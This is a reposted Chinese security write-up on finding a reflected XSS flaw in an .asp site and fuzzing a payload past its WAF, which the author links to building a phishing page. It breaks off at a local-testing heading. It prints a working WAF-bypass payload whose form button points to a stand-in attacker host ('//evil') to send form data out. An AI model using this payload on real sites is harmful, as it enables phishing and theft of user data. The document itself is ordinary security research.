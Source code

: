 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/KDvV3qSDDPdXmWaOlhffhw)

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fuBhZCW25hNtiawibXa6jdibJO1LiaaYSDECImNTbFbhRx4BTAibjAv1wDBA/640?wx_fmt=png)

扫码领资料

获黑客教程

免费 & 进群

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGZQwmqcd9VRKphGbQrXxT6qjgRB1iaHPqpHcqydDZ1nN5ib60NfJRBuBbWBZEk0ZjazTH9vKtLiczMA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=png)

> 作者：先知 - 熊未泯
> -----------
> 
> 原文地址：https://xz.aliyun.com/t/9549

**发现 xss 漏洞**
-------------

http://xxxxx.com/xxx.asp?videoid=1&nm=2010%C3%C0%B9%FA%D0%C4%B7%CE%B8%B4%CB%D5%D0%C2%B9%E6%B6%A8%BD%CC%D1%A7%C6%AC

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbJQpqOfVPOKYschvUXJdLxE3gjiamjmsbKxaJJTOqpibdSCjiaoFmqsQiaw/640?wx_fmt=png)

尝试注入，不出意外有 WAF  

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbF2eKub7P0JMjavHQP8MTpFl40w4ic3Tb1l6mRUtd7iagAwN2Jv1khibNw/640?wx_fmt=png)

**fuzz 尝试绕过**  

----------------

看到如下截图中绕过绕过 WAF 的 payload 的，让我联想到了之前在 Tomcat Examples 页面挖到过的点击劫持漏洞

  
Tomcat Examples 页面的点击劫持漏洞建议参考下方链接的这篇文章、

这个钓鱼页面的制作的思路我是由这个点击劫持漏洞想到的

```
挖洞经验 | 通过Tomcat Servlet示例页面发现的Cookie信息泄露漏洞
https://www.freebuf.com/articles/web/247253.html
```

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbibtMZicFxdmf1grn1t2vzEqUR2ibiaPY6s9BLxOoMMzBlqUEgJnyn18Nkw/640?wx_fmt=png)

```
fuzz出的payload
"><form><button formaction=//evil>XSS</button><textarea name=x>
```

**本地测试**
--------

